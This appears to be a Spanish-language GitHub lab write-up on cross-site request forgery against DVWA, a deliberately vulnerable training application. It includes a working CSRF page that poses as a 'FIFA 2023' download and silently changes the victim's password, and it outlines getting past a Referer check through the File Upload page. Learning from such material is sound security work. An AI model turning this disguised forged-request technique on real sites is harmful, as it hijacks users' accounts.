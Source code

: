 # CSRF
El cross-site request forgery (CSRF) consiste en realizar tareas dentro de una aplicación por medio de la ejecución de un enlace en el navegador de la víctima. \
Se envía un enlace que se crea a partir de una petición que contiene la acción maliciosa planeada por el atacente. \
El siguiente códio HTML contiene la acción maliciosa que cambiará la contraseña automáticamente a (12345) al pinchar en el enlace.
## Nivel: Low
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=dwvice-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
	<h3>Click to download FIFA 2023</h3>
	<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change#">FIFA 2023</a>
</body>
</html>
```
![Inicio CSRF](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/CSRF_cambio_contrase%C3%B1a.png) \
Como se ve en la imagen, en la barra de direcciones aparece la contraseña que el usuario ha cambiado "perico", que luego cambia el atacante con su código malicioso.

![Enlace malicioso](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/enlace_malicioso.png)
## Nivel: Medium

El nuevo código comprueba si la cabecera HTTP-Referer coincide con el nombre del servidor (es decir, la petición HTTP «procede» del mismo servidor que la página recién solicitada). Si es así, asume que la petición es válida y continúa. En caso contrario, produce un error. \
Para solucionar esta protección se puede averiguar el "referer" usando **Burp Suite**, pero lo que se hará aquí,
es cargar el archivo desde "File Upload" y ejecutarlo después.
